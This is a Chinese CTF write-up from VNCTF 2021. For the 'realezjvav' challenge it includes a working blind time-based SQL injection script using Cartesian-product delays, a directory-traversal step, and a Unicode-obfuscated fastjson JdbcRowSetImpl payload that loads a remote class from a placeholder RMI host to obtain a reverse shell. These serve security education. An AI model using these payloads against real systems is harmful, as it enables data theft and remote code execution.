

比赛昵称：别答了别答了再答人傻了

<!-- more -->

比赛情况：


孩子太菜了，后面实在不会做了...

## WEB

### Ez_game

小游戏题上来就改js


发现游戏关键函数，直接改数据然后`Init()`,最好疯狂`NextLevel()`跳到第10关


直接从第十关开始，上去撸boss，出flag


也可以本地保存，直接算js的flag，或者开god模式.

再不行...后面还发现了个函数...`boss.Kill()`


---

### realezjvav

hint：我的代码不能注入吧


打开登陆界面，第一反应注入，冷静下看数据量很少，拿出祖传20w字典爆破。

再冷静下测试一下，确认是sql注入

```
username=\&password=or 1=1# ·不报错
username=\&password=' ·报错
username=\&password='' ·不报错
username=\&password='# ·不报错
username=\&password='or 1=0# ·不报错
username=\&password='or # ·500报错
username=\&password='and if(1,sleep(10),select 1)# ·不报错无延时
username=admin&password='and if(0,sleep(10),select 1)# ·不报错无延时
发现没啥用...
```

推测后端为：`select * from user where username='$username' and password='$password'`

过滤了sleep()可能

这里没回显的就延时注入，`sleep()`,`Benchmark()`,或者笛卡尔积

#### 笛卡尔积延时注入

当然延时不精确，count(*)数量大时，费时就高，何况比赛机子**极其不稳定**，不清楚是我卡了还是机器卡了。

> 笛卡尔积延时注入
>
> count(*)后面所有表中的列笛卡尔积数，数量越多越卡，就会有延迟，类似之前某比赛pgsql的延时注入也可以利用此来打时间差，从而达到延时注入的效果
>
> 参考之前的WP：[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](/article/cqb2021)
>
> ```
> mysql> SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
> +-----------+
> | count(*)  |
> +-----------+
> | 113101560 |
> +-----------+
> 1 row in set (2.07 sec)
> 
> mysql> select * from ctf_test where user='1' and 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C);
> +------+-----+
> | user | pwd |
> +------+-----+
> | 1    | 0   |
> +------+-----+
> 1 row in set (2.08 sec)
> ```

甚至数量大了把我数据库给跑崩了...


payload：

```
-1'and if(`payload`,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#
```

脚本：

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 14, 2021
"""
import requests
import time
import random

url = "http://{}.c56083ac-9da0-437e-9b51-5db047b150aa.jvav.vnctf2021.node4.buuoj.cn:82/user/login"
# {}由于开了多个靶机，每次随机访问某个靶机，可以减少冲突可能

def req(payload):
    payload = payload.replace(" ", "/**/")
    print(payload)
    data = {
        "username": "admin",
        "password": payload
    }
    url1 = url.format(random.randrange(1,5,1)) # 随机访问
    # print(url1)
    res = requests.post(url=url1, data=data, timeout=None)# 不限制超时
    # print(res.text)
    if "504 Gateway Time-out" in res.text: # 504即为正确
        return 1
    else:
        return -1


def binary_search(payload):  # 二分法~
    # payload = payload.replace("=",">=")
    high = 127
    low = 32
    while True:
        time.sleep(0.05)
        if (high - low) < 4:
            for mid in range(low, high + 1):
                time.sleep(0.05)
                if req(payload % mid) == -1:
                    return mid
            return -1
        mid = (high + low) // 2
        pd = payload % mid
        if req(pd) == 1:
            low = mid + 1
        else:
            high = mid


def version():
    resultstr = ""
    for i in range(1, 100):
        payload = "-1'and if((ascii(substr(version(),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
            i)
        # 1'and/**/if(ascii(substr(version(),1,1))>64,1,1)like/**/1#
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "version==========>" + resultstr
    print(resultstr)


def database():
    resultstr = ""
    for i in range(1, 100):
        payload = "-1'and if((ascii(substr(database(),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
            i)
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "databases==========>" + resultstr
    print(resultstr)
# databases==========>ctf

def table():
    resultstr = ""
    for i in range(1, 10000):
        payload = "-1'and if((ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('ctf')),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
            i)
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "tables==========>" + resultstr
    print(resultstr)
# tables==========>ctf

def columns():
    resultstr = ""
    for i in range(1, 10000):
        payload = " ".format(i) # 孩子没跑了，太卡了
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "columns==========>" + resultstr
    print(resultstr)

def data():
    resultstr = " "
    for i in range(1, 10000):
        payload = "".format(i) # 孩子没跑了，太卡了
        j = binary_search(payload)
        if j > 10:
            resultstr = resultstr + chr(j)
            print(resultstr)
        else:
            break
    resultstr = "data==========>" + resultstr
    print(resultstr)

if __name__ == "__main__":
    # version()
    # database()
    table()
    # columns()
    # data()

```

孩子实在跑不下去了


py出题人换了密码`no_0ne_kn0w_th1s`

```
username=admin&password=no_0ne_kn0w_th1s
```

登录成功


js加载图片


发现`/searchimage`可以目录穿越，读不到flag，可能名字不对，读到了`pom.xml`


抓包看


结合应该是fastjson反序列化漏洞

#### fastjson <1.2.68反序列化漏洞

直接payload试一下，被ban了


需要绕过，JSONObject.parseObject()会自动会把json字符串中的Unicode码进行转换，所以转成Unicode即可

服务器起 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "payload" -A ip`


再起监听端口

最后打payload

```json
roleJson= {
	"e":
	{
		"@type":"java.lang.Class",
		"val":"com.sun.rowset.JdbcRowSetImpl"
	},
	"name":
	{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"rmi://ip:port/Exploit",
		"autoCommit":true
	}
};// 需要Unicode编码
```


```json
roleJson= {
	"e":
	{
		"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073",
		"val":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"
	},
	"name":
	{
		"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c",
		"dataSourceName":"rmi://ip:port/Exploit",
		"\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true
	}
};
```


服务器加载了恶意class文件，成功getshell




编码问题，整了一个小时就是反弹不了shell，原来是java反弹shell的编码问题，去[网站](http://www.jackson-t.ca/runtime-exec-payloads.html)编码一下就成功了


---

## 总结

孩子好菜，被《简单的签到》搞傻了。查阅了不少资料，拜读了很多大佬的博客，虽然最后还是没做出来，等等WP康康大佬的思路也许比自己忙活半天有用，当然少不了原理的研究。

继续学习啦

（想结识更多大佬）